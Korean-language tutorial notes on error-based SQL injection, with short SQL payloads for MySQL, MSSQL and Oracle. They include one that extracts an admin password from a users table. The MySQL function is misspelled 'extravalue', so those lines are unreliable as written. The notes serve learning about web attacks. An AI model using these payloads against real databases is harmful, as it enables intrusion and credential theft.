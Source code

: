 ## Error based SQL Injection
### Error based SQL Injection
---
임의로 에러를 발생시켜 데이터베이스 및 운영체제의 정보를 획득하는 공격 기법이다. 
#### 공격방법
Flask 프레임워크로 개발된 애플리케이션에서 디버그 모드를 활성화하면 코드에서 오류가 발생할 때 발생 원인을 출력하는 것을 이용해서, 다양한 정보를 수집하고, 원하는 데이터를 획득한다.
* extravalue 함수
첫 번째로 전달된 XML데이터에서 두 번째 인자인 XPATH식을 통해 데이터를 추출한다. 만약 두 번째 XPATH식이 올바르지 않을 경우 에러 메시지와 잘못된 식을 출력한다. 
```sql
SELECT extravalue(1, concat(0x3a, version()));
SELECT extravalue(1, concat(0x3a, (SELECT password FROM users WHERE username='admin')));
```
* updatexml
``` sql
SELECT updatexml(null, concat(0x3a, version()), null);
```
#### MSSQL 공격
```sql
SELECT convert(int, @@version);
SELECT cast((SELECT @@version) as int);
```
#### Oracle 공격
``` sql
SELECT CTXSYS.DRITHSX.SN(user, (select banner from v$version where rownum=1)) FROM dual;
```
### Error based Blind SQL Injection
---
Blind SQLI와 Error base SQLI를 결합시킨 공격기법이다. 에러를 발생시키고 참/ 거짓을 판단해 데이터를 추출한다. 
#### Short-circuit evaluation
로직 연산의 원리를 이용해 공격하는 기법이다. `AND`연산은 처음 식이 거짓이라면 뒤의 식은 실행 하지 않고, `OR`연산은 반대로 첫 번째 식이 참이라면 뒤의 식을 실행되지 않는다.